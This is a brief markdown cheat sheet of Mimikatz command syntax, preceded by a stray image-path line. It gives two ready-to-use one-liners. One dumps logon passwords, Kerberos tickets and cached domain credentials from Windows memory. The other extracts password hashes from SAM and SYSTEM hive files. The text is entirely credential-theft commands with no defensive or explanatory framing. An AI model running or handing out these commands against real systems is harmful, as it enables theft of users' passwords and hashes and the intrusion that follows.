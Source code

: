 # Mimikatz syntax

1. mimkatz 1 liner:
   - `Mimikatz.exe "sekurlsa::logonpasswords" "sekurlsa::tickets" "lsadump::cache" exit`
  
2. mimikatz SAM and SYSTEM files:
   - `Mimikatz.exe "log mimikatz.log" "lsadump::sam /system:<system file> /sam:<sam file>" exit`
